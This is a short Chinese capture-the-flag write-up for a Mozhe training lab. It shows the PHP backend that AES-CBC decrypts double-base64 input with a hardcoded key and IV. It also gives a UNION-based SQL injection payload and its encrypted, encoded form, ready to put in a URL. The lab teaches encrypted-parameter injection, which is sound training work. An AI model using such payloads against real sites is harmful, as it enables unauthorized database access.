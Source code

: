 ```php
//-墨者靶场-（后端处理）
//因为该题是经过base64两次加密，以下为源码
$td = mCrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
mcrypt_generic_init($td,'ydhaqPQnexoaDuw3','2018201920202021');
$data=mdecrypt_generic($td,base64_decode(base64_decode($data)));
//因为源代码中加密了两次，所以先对靶场给出的密文进行一次base64解密，同时源代码中也有密钥和偏移量，加密模式为CBC，之后再把解密一次后的密文再用AES进行解密。

//或者进行漏洞注入
//漏洞注入也需要经过两次加密，然后拼接到url中。
-1 union select 1,database(),user(),4_mozhe
xgd58ipTrnx8VzSBJicqCibZxIRsZKgXOYUrNQP8fCCtx9JZ+6K1hHt7RKkzV305
eGdkNThpcFRybng4VnpTQkppY3FDaWJaeElSc1pLZ1hPWVVyTlFQOGZDQ3R4OUpaKzZLMWhIdDdSS2t6VjMwNQ==
```

# 本文总结

**看密文猜加密算法，猜不出找源码，没有源码找前端js有没有泄露加密算法；如果什么都找不到，那么就无解，直接放弃。（可以直接解密的MD5或Base64除外）**



